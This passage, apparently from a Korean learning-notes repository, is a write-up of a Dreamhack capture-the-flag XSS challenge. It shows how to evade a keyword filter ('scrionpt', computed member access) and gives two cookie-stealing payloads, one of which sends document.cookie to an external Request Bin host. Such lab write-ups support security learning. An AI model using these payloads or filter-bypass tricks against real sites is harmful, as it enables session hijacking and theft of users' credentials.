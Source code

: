     | location.href | 전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성값 <br/> &nbsp;&nbsp; - ```on```이라는 키워드가 포함되어 있으므로 필터링에 탐지됨 <br/> &nbsp;&nbsp;&nbsp;&nbsp; → ```document``` 속성으로부터 접근하여 ```document['locatio'+'n'].href```과 같은 방식으로 우회 (Computed member access) |
    | document.cookie | 해당 페이지에서 사용하는 쿠키를 읽고, 쓰는 속성값 |

<br/><br/>

### 익스플로잇
#### 방법 1: memo 페이지 이용
1. flag 포인트에서 ```<scrionpt>document['locatio'+'n'].href="/memo?memo="+document.cookie;</scrionpt>```를 입력하고 제출 버튼을 클릭함
    <img width="982" alt="memo_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/9b541c50-9615-450f-8dcc-056a7289d3b0">

2. "good" 알림창이 출력되면 memo 페이지로 이동하여 화면에 출력된 임의 이용자의 쿠키 정보(FLAG)를 획득함
    <img width="982" alt="memo_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/6cfe766e-19bb-403d-83c0-e0a267ca57d4">

<br/>

#### 방법 2: 외부 웹 서버 이용
1. 외부에서 접근 가능한 웹 서버를 준비함
    - Dreamhack에서 제공하는 드림핵툴즈 서비스의 Request Bin 기능을 이용함
        + Request Bin 항목에서 랜덤한 URL을 생성한 후 이를 이용하여 익스플로잇을 수행함

2. flag 엔드포인트에서 ```<scrionpt>document['locatio'+'n'].href="http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</scrionpt>```를 입력하고 제출 버튼을 클릭함
    <img width="982" alt="webserver_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/19b48d4d-2ac0-4262-959c-9443e88409fb">

3. "good" 알림창이 출력되면 웹 서버의 접속 기록을 확인하여 QueryString 부분에서 임의 이용자의 쿠키 정보(FLAG)를 획득함
    <img width="1527" alt="webserver_3" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/8a6eeee4-e523-4f28-be3a-ac6a550e4b8d">
